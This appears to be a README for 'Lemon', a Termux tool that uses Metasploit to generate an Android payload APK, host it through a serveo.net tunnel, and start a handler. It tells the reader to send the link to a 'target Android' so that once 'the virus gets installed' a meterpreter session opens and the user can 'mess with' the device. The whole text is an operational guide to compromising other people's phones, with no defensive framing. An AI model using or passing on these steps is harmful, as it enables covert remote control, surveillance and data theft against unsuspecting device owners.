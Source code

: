 **Requirements :-**

1.Termux (https://play.google.com/store/apps/details?id=com.termux&hl=en_US)

2.Metasploit-Framework

3.git

**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Viper-Gamer/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1.start using this by typing "sh run"

2.copy the link you get.

3.choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" in new session and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Type "?" and press enter. Now you can mess with the Android device using the commnands listed.
